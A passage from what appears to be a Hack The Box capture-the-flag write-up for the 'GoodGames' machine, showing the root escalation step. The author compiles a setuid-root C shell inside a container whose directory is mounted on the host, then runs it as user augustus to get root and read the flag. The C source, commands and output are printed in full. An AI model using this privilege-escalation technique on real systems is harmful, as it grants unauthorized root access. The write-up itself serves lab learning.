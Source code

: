 ## Shell as root
### root.txt
I noticed that the files that I originally transferred in augustus' directory were all completely owned by root. 
```bash
augustus@GoodGames:~$ ls -la
total 64
drwxr-xr-x 2 augustus augustus  4096 Nov 21 20:52 .
drwxr-xr-x 3 root     root      4096 Oct 19 12:16 ..
lrwxrwxrwx 1 root     root         9 Nov  3 10:16 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus   220 Oct 19 12:16 .bash_logout
-rw-r--r-- 1 augustus augustus  3526 Oct 19 12:16 .bashrc
-rwxr-xr-x 1 root     root     38197 Nov 20 19:09 deepce.sh
-rw-r--r-- 1 augustus augustus   807 Oct 19 12:16 .profile
-rw-r----- 1 root     augustus    32 Nov  3 10:13 user.txt
```

If I put something like `bash` in the container, I could easily use that as augustus to give myself an elevated shell. Rather than struggle with kernel versions and all of that nonsense, I remembered I saw that `gcc` was in the container, so I compiled my own program.

```c
int main(){
	setgid(0);
	setuid(0);
	system("/bin/bash");
	return 0;
}
```

```bash
root@3a453ab39d3d:/home/augustus# gcc shell.c -o shell -w
root@3a453ab39d3d:/home/augustus# chmod +s shell
```

Then, as augustus, I can execute the program, and grab the flag.
```bash
augustus@GoodGames:~$ ls -la
total 80
drwxr-xr-x 2 augustus augustus  4096 Nov 21 20:56 .
drwxr-xr-x 3 root     root      4096 Oct 19 12:16 ..
lrwxrwxrwx 1 root     root         9 Nov  3 10:16 .bash_history -> /dev/null
-rw-r--r-- 1 augustus augustus   220 Oct 19 12:16 .bash_logout
-rw-r--r-- 1 augustus augustus  3526 Oct 19 12:16 .bashrc
-rwxr-xr-x 1 root     root     38197 Nov 20 19:09 deepce.sh
-rw-r--r-- 1 augustus augustus   807 Oct 19 12:16 .profile
-rwsr-sr-x 1 root     root      8744 Nov 21 20:56 shell
-rw-r--r-- 1 root     root        71 Nov 20 20:34 shell.c
-rw-r----- 1 root     augustus    32 Nov  3 10:13 user.txt
augustus@GoodGames:~$ ./shell 
root@GoodGames:~# cat /root/root.txt
HTB{M0un73d_F1l3_Sy57eM5_4r3_DaNg3R0uS}
```
